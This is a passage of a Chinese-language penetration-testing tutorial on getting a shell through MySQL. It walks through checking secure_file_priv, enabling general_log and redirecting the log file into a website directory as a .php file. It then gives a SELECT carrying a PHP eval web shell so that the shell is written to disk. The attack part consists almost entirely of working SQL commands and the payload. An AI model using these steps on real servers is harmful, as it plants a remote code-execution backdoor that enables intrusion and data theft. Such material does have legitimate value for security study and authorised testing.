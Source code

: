 

**secure_file_priv:**

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220119190851930.png)



**into outfile:**

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220119190916033.png)



#### 方法一：general_log

1.查看secure_file_priv值

```bash
show global variables like '%secure_file_priv%';
# show global variables like '%secure%';

# 此开关默认为NULL，即不允许导入导出
# 没有具体值时，表示不对mysqld 的导入|导出做限制
# 值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下

```



2.查询操作日志存放路径

```bash
show variables like 'general_log%';

# 操作日志默认也是关闭的

```

3.首先打开操作日志记录

```bash
set global general_log = 'ON';

```



4.设置操作记录日志路径

```bash
# set global general_log_file='路径地址';
# 选择网站的目录里面
set global general_log_file='D:\\phpstudy\\PHPTutorial\\WWW\\xx.php'

```

5.执行sql语句，mysql会将执行的语句内容记录到我们指定的文件中，就可以getshell了

```bash
select '<?php @eval($_POST[1]);?>';

```
